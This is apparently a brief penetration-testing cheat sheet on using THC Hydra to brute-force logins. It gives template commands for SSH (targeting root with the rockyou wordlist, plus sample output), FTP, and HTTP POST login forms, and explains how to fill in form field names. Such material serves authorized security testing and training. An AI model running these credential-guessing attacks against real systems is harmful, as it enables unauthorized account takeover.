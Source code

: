 # THC Hydra
[THC Hydra](https://sectools.org/tool/hydra/) is a tool commonly used to brute force user credentials. Always remember that you are at the mercy of your wordlists during these types of attacks. The longer, more accurate/finely-tuned wordlist = the fatser you get positive results.
## SSH Brute Force
To brute force SSH credentials, use the following command. This will brute force the credentials for the `root` user.

```
root@kali:~# hydra -l root -P /wordlists/rockyou.txt (target ip address) ssh
[WARNING] Many SSH configurations limit the number of parallel tasks, it is \
recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344423 login tries (l:1/p:0), ~14344423 tries per task
[DATA] attacking ssh://(target ip address):22/
[STATUS] 257.00 tries/min, 257 tries in 00:00h, 0 to do in 01:00h, 14344167 active
[STATUS] 245.00 tries/min, 735 tries in 00:00h, 0 to do in 03:00h, 14343689 active
[STATUS] 231.14 tries/min, 1618 tries in 00:00h, 0 to do in 07:00h, 14342806 active
```

## FTP Brute Force
To brute for an FTP service with a known username try the following command.

`hydra -l (UID) -P /path/to/500-worst-passwords.txt (TARGET IP ADDRESS) ftp`

## HTTP
To brute for an HTTP form, try the following syntax with `hydra`:

`hydra -l (USERNAME) -P /path/to/wordlist.txt (TARGET IP ADDRESS) http-post-form "/URI/path/to/login.php:(HTML FORM USERNAME ATTRIBUTE)=^USER^&(HTML FORM PASSWORD ATTRIBUTE)=^PASS^&Login=Login:(FAILED LOGIN MESSAGE)"`

Where `HTML FORM USERNAME ATTRIBUTE` is the HTML form username "name" attribute. E.g.: `<input type=text name="username" />` In that example, the `username` value for the attribute `name` is what would be used. Same gfoes for the password: `<input type=password name="passwd" />` In that exmaple `passwd` would be used to construct the command as it is the value of the password input's name attribute. The command would then look something like so:

  ... `:username=^USER^&passwd=^PASS^` ...
  
  `hydra` will fill in the `^USER^` and `^PASS^` values upon every single HTTP request with each username and password that you mean to test.
